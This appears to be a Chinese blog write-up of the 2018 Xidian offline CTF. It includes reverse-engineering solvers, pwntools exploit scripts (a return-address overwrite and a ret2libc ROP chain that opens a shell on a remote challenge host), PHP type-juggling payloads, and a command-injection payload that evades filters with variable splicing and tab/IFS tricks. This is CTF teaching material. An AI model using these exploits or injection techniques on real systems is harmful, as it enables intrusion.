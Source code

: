 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      西电网信杯线下wp 		 # 标题 
subtitle:   西电网信杯               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# 西电网信杯线下赛题目wp
>今年师傅们出题挺好的 就是 题目分布有点倾斜 对于专攻某些方面的dalao们不太友好

## RE
>[题目包](../files/xdctf_re.zip)
   * RE1  
   送分题目 使用od直接nop掉判断即可
   * RE2  
   首先丢进ida
   ![](https://s1.ax1x.com/2018/07/26/PN1Zxs.png)
   根据分析,我们可以得出flag格式:  
   flag{x*32}  
   我们可以注意到v11是ebp-13h,v11是'}'  
   那么src的开头为ebp-33h,则src的长度就是0x33-0x13 --> 32位
   接下来讲src赋给了dst
   跟进接下来的函数
   ![](https://s1.ax1x.com/2018/07/27/PUmJeS.png)
   我们可以发现他实际就是将dst与另一个数组中的值进行了异或  
   继续跟进，
   ![](https://s1.ax1x.com/2018/07/27/PUmwzq.png)
   发现实际就是对v7数组进行赋值,最后再用v7进行比对,那么我们很容易写出程序  
   ```python
str1 = "23gjf13au98hk3a1090zp8qjs41h39jp"
add = [0x04,0x0F,0x0B,0x1E,0x0E,0x14,0x1F,0x09,0x17,0x02,0x19,0x1C,0x12,0x10,0x00,0x08,0x11,0x01,0x15,0x03,0x0A,0x1D,0x0C,0x16,0x18,0x0D,0x1B,0x05,0x07,0x06,0x13,0x1A]
str2 = ''
dict1 = [0x53,0x45,0x5C,0x1E,0x50,0x13,0x2F,0x78,0x04,0x53,0x58,0x4A,0x43,0x01,0x41,0x2A,0x08,0x40,0x67,0x2F,0x0C,0x4A,0x12,0x2E,0x41,0x6C,0x05,0x54,0x40,0x12,0x5B,0x4F]
flag = 'flag{'
for i in range(len(str1)):
    str2 += chr(ord(str1[add[i]]))
for i in range(len(str2)):
    flag += chr( ord(str2[i])^dict1[i] )
flag += '}'
print flag
   ```
   得到flag  
   >flag{5t4t1c_An4lys1s_1s_E4sy_2_me!!!~}  

* RE3  
    ![](https://s1.ax1x.com/2018/07/27/PUnVlq.png)
    看到这两个字符串，我们就要大胆的猜测是存在base64和迷宫  
    将下面一串字符重新排列之后  
    ![](https://s1.ax1x.com/2018/07/27/PUnNnK.png)  
    再分析代码
    ![](https://s1.ax1x.com/2018/07/27/PUnwAe.png)  
    ```
    2 -> down  
    1 -> up  
    3 -> left  
    4 -> right  
    ```
    我们可以得出在base64前的字符  
    >222441144222    

    同时，我们发现他的base64编码表是有替换的，于是可得出解密程序:
  
```python  
from base64 import b64encode
import string
s = "222441144222"
list1 = "0123456789ABCDEabcdefghijklFGHIJKLMNOPQRSTUVWXYZmnopqrstuvwxyz+="
list2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
str1 = b64encode(s)
flag = ''
for i in str1:
    num = list2.index(i)
    flag += list1[num]
print flag
```  
> flag:CN8oD3bnCebqCN8o  


* Mobile  
    也是一个送分题....直接dex2jar就可以获得源码  
    很容易得知是rsa加密,且私钥通过解密可知
```python
f = open("key.txt","r")
key = f.read()
f.close()
key1 = ''
for i in range(len(key)):
    if(i % 2 == 0):
        temp = ord(key[i])+2
    else:
        temp = ord(key[i])-1
    key1 += chr(temp)
print key1
```


根据密文与私钥即可解密获得flag

## pwn
* pwn1
又是一道送分题  
![](https://s1.ax1x.com/2018/07/27/PUungI.png)  
![](https://s1.ax1x.com/2018/07/27/PUuuvt.png)  
![](https://s1.ax1x.com/2018/07/27/PUuMKP.png)  
很显然可以直接将ret覆盖成system调用地址
```python
from pwn import *
s = process("./ez_pwn")
system = 0x04007A1
s.sendline("5438")
payload = 'A'*0x20+p64(1)+p64(system)
print payload
s.sendline(payload)
s.interactive()
```

* pwn2  
  一道传统的菜单题
  ![](https://s1.ax1x.com/2018/07/27/PUGhUP.png)
  漏洞出现在这个函数  
  ![](https://s1.ax1x.com/2018/07/27/PUGIC8.png)
  read_x 实际上就是一个read函数,显然我们可以溢出  
  padding = 0x40+8  
  就可以控制ret  
  同时利用puts和给予的libc就可以leak出system  
  其中需要注意的就是 64位传参使用的是寄存器
  >从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

  对Rop的搜索使用ROPgadget即可  
  所以对整个的程序的编写思路就是:  
  1. leak出偏移,返回主函数
  2. 调用system,获得shell  
  exp如下:


```python
#-*-coding=utf-8-*-
from pwn import *

# s = process('./relro')

#暂时靶机还开着
s = remote('118.25.227.117',10000)
elf = ELF("./relro")
libc = ELF("./libc64.so")

put_plt = elf.plt['puts']
put_got = elf.got['puts']
pop_rdi = 0x0000000000400cd3
ret = 0x04008F2

#Get Offset
s.sendline("1")
payload = 'A'*0x40+'A'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(ret)
s.sendline(payload)
s.recvuntil("save message success.\n")
put_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
offset = put_real-libc.symbols['puts']

system_add = libc.symbols['system']+offset
bin_sh = next(libc.search('/bin/sh'))+offset
s.sendline("1")
payload = 'A'*0x40+'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_add)+p64(1)
print payload
s.sendline(payload)
s.interactive()
```  
> flag:flag{I_am_on_your_behind}



## WEB  
* web1  
    送分,直接变量覆盖出GLOBAL全局变量就可以
* web2  


```php
<?php
error_reporting(0);
require 'flag.php';
$value = $_GET['value'];
$password = $_GET['password'];
$username = '';

for ($i = 0; $i < count($value); ++$i) {
    if ($value[$i] > 32 && $value[$i] < 127) unset($value);
    else $username .= chr($value[$i]);
    if ($username == 'w3lc0me_To_xid1an' && intval($password) < 232 && intval($password + 1) > 233) {
        echo 'Hello '.$username.'!', '<br>', PHP_EOL;
        echo $flag, '<hr>';
    }
}

highlight_file(__FILE__);
```  


    源码如上 绕过这些限制需要几个小trick
1. chr函数在转换时会自动取模256,所以我们只需要在原本ascii码基础上+256即可
2. intval()在处理16进制时存在问题,但强制转换时时正常的.
> payload: value[0]=375&value[1]=307&value[2]=364&value[3]=355&value[4]=304&value[5]=365&value[6]=357&value[7]=351&value[8]=340&value[9]=367&value[10]=351&value[11]=376&value[12]=361&value[13]=356&value[14]=305&value[15]=353&value[16]=366&password=0x123  
flag: flag{bd6c746d0196a31e42c2a1ac7e7dbc4b}

* web3
    一个命令执行,大部分命令都被过滤了,但我们可以考虑使用拼接,同时空格可以使用tab绕过或者使用${IFS}绕过.  
    关于拼接,bash中可以使用变量的方式,例如:  
    ```a=ca;b=t;$a$b flag```

>payload: 127.0.0.1\`a=c;b=at;$a$b{此处为tab}flag\`